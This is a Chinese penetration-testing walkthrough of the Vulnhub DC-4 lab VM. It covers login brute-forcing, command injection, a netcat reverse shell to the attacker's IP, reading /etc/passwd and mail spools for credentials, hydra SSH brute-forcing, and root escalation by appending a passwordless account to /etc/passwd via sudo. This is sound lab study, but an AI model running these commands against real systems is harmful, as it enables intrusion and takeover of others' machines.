\> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/BFk\_6FteXkRAK6mQam3VJA)

说明：Vulnhub 是一个渗透测试实战网站，提供了许多带有漏洞的渗透测试靶机下载。适合初学者学习，实践。DC-4 全程只有一个 falg，获取 root 权限，以下内容是自身复现的过程，总结记录下来，如有不足请多多指教。

下载地址：

Download (Mirror): 

https://download.vulnhub.com/dc/DC-4.zip

目标机 IP 地址：192.168.16.142  
攻击机 kali IP 地址：192.168.16.138

arp-scan -l

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPPdh7FoZxX4HmgCq7CQgx13pKQZIyFiamMBL7Lp0GFokoc6EUe3iaOORA/640?wx_fmt=png)

端口扫描

nmap -sV -p- 192.168.16.142     开放了 80 与 22。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPeNphRVw4aWucCf7Op3EK0y5gNFrfvU2VaRFrBqN0LEMALBDskBc4PA/640?wx_fmt=png)

访问 80 端口。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPWVFdTMUypELg7VXFjjcmicblGzFoND6q92iafJKSq3ibkWUOkIWppibk9Q/640?wx_fmt=png)

根据提示页面提示可以使用 admin 用户登陆，尝试对它进行爆破，使用 burp 中的 Intuder 模块。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPDENMbdWO7YBAOPN6XTpxMIIwHE416l00cdEmWUgAPkaicI065UMK1uQ/640?wx_fmt=png)

爆破后发现密码为 happy 时，响应正文的长度较长，使用 happy 尝试登陆一下。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPouyO2p4cRIx1vLMj77lPrhFn0hWRHrsE5pGaAic5E4TwHQXicoMKQIgg/640?wx_fmt=png)

登陆成功用户名 admin，密码 happy。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPuHBiclGlia1dJVicgQAjKE1du1GEwLd6ntxy2ic4hvDFsHrEAwPticR55Vw/640?wx_fmt=png)

随意点一点，点击 Command 以后 run 一下发现可以执行命令。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GP0h0A8LutTUZOxSfuuhFvGVX682bXDRpkCpJ5XFeD7hJ70XlnibgY5vw/640?wx_fmt=png)

使用 burp 进行抓包，结合 Repeater 对数据包进行重放尝试执行其他命令。执行成功。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPRhXXCvD04O0yygD3ymGkY5Wz9XJiawiawicU5hOsH2VRwBcIR6yy3BngQ/640?wx_fmt=png)

尝试反弹 shell，首先攻击机监听 7777 端口，等待 .......

nc -e /bin/bash 192.168.16.138 7777

反弹成功。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPVNUQTjjUiakThxIKCibSrDuQlicjR7avzX3WSeXzvaQMBTyKRoz47G8dQ/640?wx_fmt=png)

python -c 'import pty;pty.spawn("/bin/bash")'   转换交互式 shell，对目录文件进行检查，查看用户 cat /etc/passwd。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPzFByznANE3oiaLGyFkQ8OsT8lubXvpynT7g9yzv5LhbzTML2DZHddmQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPWE4kD6Bw3pWMOYoQvGAdJtACEUqKHc7iaiaWsghWoKr8iakzb25DtY4Ow/640?wx_fmt=png)

进入这几个用户的家目录进行信息收集。jim 用户发现了一个关于密码的文件，

/home/jim/backups/old-passwords.bak 将文件进行保存。无权查看 mbox 文件。查看 test.sh 未发现有用信息。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPpia6v7HNIChxlBckf1xiaoQc7U3tk0cgYoy8yn7I2YNtw3hw6cVicvnZA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPzSLFpUIJGAs4bQrNDiaCES33ViaVErWWU1tkFmm2VUQ99m1xglld0dTw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPp2CRJVVicJpZra2jDm80EA5lfHibIHB06zvrZ9mtZxLbnyGyhUYIAwUQ/640?wx_fmt=png)

ssh 爆破刚刚在 jim 用户里发现了一个关于密码的文件，使用 hydra 进行爆破  

hydra -l jim -P dc4pass.txt ssh://192.168.16.142 

爆出密码后进行登录 ssh  jim@192.168.16.142  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPVpe4uRDQmk7VeNibv55qeBjKbzrdVfOBe9d3VusJfqlFpfnLJafHYmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPDsRBpQXu0eSUqoV67WCY91r8avf0ic0ovcAiaKEC431TbpSbQOr3RtZg/640?wx_fmt=png)

打开 mbox 是来自 root 的一封邮件大致的内容是这是一个测试。

进入邮件服务目录查看邮件发现了一封由 charles 发给 jim 的密码邮件。

cat /var/mail/jim

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPTj0wnQCibHFI4jibfYYdKPn3373tVYTdyLDicpeCVKnIcvicuK06HW5wRA/640?wx_fmt=png)

切换用户 charles/^xHhA&hvim0y。

sudo -l : 列出目前用户可执行与无法执行的指令。

发现 teehee 命令无需 root 用户密码即可以 root 权限执行。 

查看 teehee 命令的作用。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPrNjPcPPO86k0mU8DoxhLarqvibtlJ30fe9BZj5OiaGP87KfgvEAOibfIQ/640?wx_fmt=png)

teehee：输入输出文件。这里使用 - a 选项 追加不覆盖。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPOPVX3hyaGBdcs07p69C6wcVs3pb3Ka9RGlBBJXZK2QkjJbjQhFnXeg/640?wx_fmt=png)

使用 teehee -a 创建一个用户拥有 root 权限的用户。

参照 / etc/passwd 。  

root:x:0:0:root:/root:/bin/bash

echo dc41::0:0:::/bin/bash | sudo teehee -a /etc/passwd

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GPHRNl1mWjiaXIQK0EqHcibVdf3FTgxIW7iak6vVSy6Rx86jd2HMDy1hbog/640?wx_fmt=png)

进入 root 用户家目录发现 flag 成功夺旗。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa2719Aukk5kGKVpw9WxG25GP9KYK1sz0qp5l4zw29iajFLicz0rLt8WRrN3ehPsia2rbmvyudoLHCymSw/640?wx_fmt=png)